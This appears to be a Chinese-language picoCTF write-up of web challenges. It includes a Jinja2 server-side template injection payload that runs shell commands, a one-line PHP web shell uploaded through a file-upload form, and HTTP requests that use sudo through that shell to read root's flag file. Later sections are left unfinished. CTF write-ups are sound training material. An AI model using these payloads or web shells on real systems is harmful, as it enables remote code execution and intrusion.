






## 0x00 SSTI1

### 題目描述



首先使用 Wappalyzer 工具識別目標網站的技術棧：



**發現關鍵資訊**：

- 後端框架：Python Flask
- 模板引擎：Jinja2（Flask 預設）
- 可能存在 SSTI 漏洞

### 解題過程

使用基礎數學運算測試是否存在模板注入：

**Payload**: `{{9*9}}`



確認存在 SSTI 漏洞，模板引擎執行了數學運算

針對 Flask/Jinja2 環境構造 payload：

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat fl*').read()}}
```

**Payload 解析**：

- `request.application.__globals__`: 存取 Flask 應用程式的全域變數
- `__builtins__`: 存取 Python 內建函數
- `__import__('os')`: 匯入 os 模組
- `popen('cat fl*')`: 執行系統命令讀取 flag 檔案



Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`

## 0x01 n0s4n1ty 1

### 題目描述


存取目標網站發現檔案上傳功能，使用 Wappalyzer 識別技術棧：


**發現關鍵資訊**：

- 後端：PHP
- 可能存在檔案上傳漏洞
- 可嘗試上傳 Web Shell

### 解題過程

針對 PHP 後端建立簡單的 Web Shell：

```php
<?php system($_GET['cmd']); ?>
```

```bash
echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

成功上傳 `webshell.php` 到伺服器的 `/uploads/` 目錄

嘗試存取 root 目錄：

```http
GET /uploads/webshell.php?cmd=ls%20/root
```

**結果**: 無回應，可能權限不足

測試是否可使用 sudo 指令：

```http
GET /uploads/webshell.php?cmd=sudo%20find%20/%20-name%20%22flag.txt%22
```


**發現關鍵**：當前用戶具有 sudo 權限！

使用 sudo 權限讀取 flag：

```http
GET /uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt
```


Flag: `picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

## 0x02 head-dump

### 題目描述



### 解題過程

看了一下題目描述，有說到`API`，所以先找找能不能訪問 api 文件
一樣先看適用什麼 api 管理工具



發現關鍵資訊：

- API 管理工具：Swagger

進行 API 目錄路徑暴力猜測
使用`dirb` 工具：

```bash

```

## 0x03 Cookie Monster Secret Recipe

### 題目描述
